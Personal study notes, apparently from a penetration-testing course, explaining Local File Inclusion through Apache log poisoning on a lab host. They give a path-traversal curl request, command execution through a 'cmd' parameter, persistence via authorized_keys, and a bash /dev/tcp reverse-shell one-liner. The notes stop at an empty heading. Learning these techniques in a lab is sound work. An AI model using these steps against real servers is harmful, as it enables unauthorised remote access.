




### Local File Inclusion and Remote File Inclusion

Directory Traversal vs File Inclusion.  Directory Traversal only lets us read the file.  File inclusion adds the file's functionality to what we're including it in.

#### LFI

We can use a process like `log poisoning` in order to pull something like this off.  To do this, you attempt to write code to the log file and then get that to execute.

`curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log`

With this we can use `curl` to check the access log and see what's going on there.  We can also put this into the web browser and get the output in the page.  Then view page source and you get a clean line by line version as well.

Here we can see that the user agent is saved into the logs.  So, let's change that and see what we can do.  Including a screenshot cause the command itself has given my computer's AV fits and this is easier lol.

Here we use burp after getting the page into burpsuite.  Once that goes in and we get the `200 OK` response, now we can use that to run commands on the server.

We use the same `../../var/log/apache2/access.log` but we add something to the end of it.  Now we finish it with `../../var/log/apache2/access.log&cmd=ps` and check the output.

Now we get some output.  We can also do `ls -la` but we need to URL encode the space with `%20`

We have RCE.  We can use this to add our SSH key to the `authorized_keys` file for a user.  We can also use a BASH oneliner to get a reverse shell.  With this being PHP it will default to Bourne Shell and not Bash.  If we want it to open in Bash, we can include `bash -c` and the put the command itself in quotes.

`bash -c "bash -i >& /dev/tcp/192.168.your.ip/4444 0>&1"`

And don't forget to URL encode it.

You can also do this with Windows servers.  The only things that change are the file paths and the code execution.  The PHP one shown here will work on a Windows server as well since it's PHP based and not Windows based.  When we're doing `log poisoning` we just need to remember that log files are application specific.  So if you're looking for XAMPP logs, those logs can be found in `C:\xampp\apache\logs\`.

#### PHP Wrappers

